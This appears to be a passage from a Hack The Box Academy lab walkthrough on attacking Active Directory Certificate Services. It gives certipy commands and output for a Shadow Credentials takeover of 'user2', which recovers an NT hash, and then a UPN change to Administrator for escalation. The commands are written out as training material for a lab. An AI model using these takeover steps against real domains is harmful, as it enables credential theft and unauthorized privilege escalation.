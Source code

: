 Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-aoyamvb8qf]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to takeover the `user2` user with `Shadow Credentials` (which is possible due to the user `blwasp` having `FullControl` over `user2`, allowing `certipy` to request the TGT for `user2` and `Un-PAC-the-hash` within it), students need to use the `shadow` command of `certipy` along with the `auto` positional argument, specifying `user2` for the `-account` option; students will attain the NT hash `ee22ddf0f8a66db4217050e6a948f9d6` for the `user2` user:

Code: shell

```shell
certipy shadow auto -u blwasp@lab.local -p Password123! -account user2
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-aoyamvb8qf]─[~]
└──╼ [★]$ certipy shadow auto -u blwasp@lab.local -p Password123! -account user2

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'user2'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '2955b91a-876d-fdc1-9425-c88702051ede'
[*] Adding Key Credential with device ID '2955b91a-876d-fdc1-9425-c88702051ede' to the Key Credentials for 'user2'
[*] Successfully added Key Credential with device ID '2955b91a-876d-fdc1-9425-c88702051ede' to the Key Credentials for 'user2'
[*] Authenticating as 'user2' with the certificate
[*] Using principal: user2@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'user2.ccache'
[*] Trying to retrieve NT hash for 'user2'
[*] Restoring the old Key Credentials for 'user2'
[*] Successfully restored the old Key Credentials for 'user2'
[*] NT hash for 'user2': ee22ddf0f8a66db4217050e6a948f9d6
```

Afterward, students need to update the `UPN` of `user2` to be that of `Administrator` by using the `account` command of `certipy` along with the `update` positional argument, specifying `user2` for the `-user` option and `Administrator` for the `-upn` option:

Code: shell

```shell
certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn Administrator
```
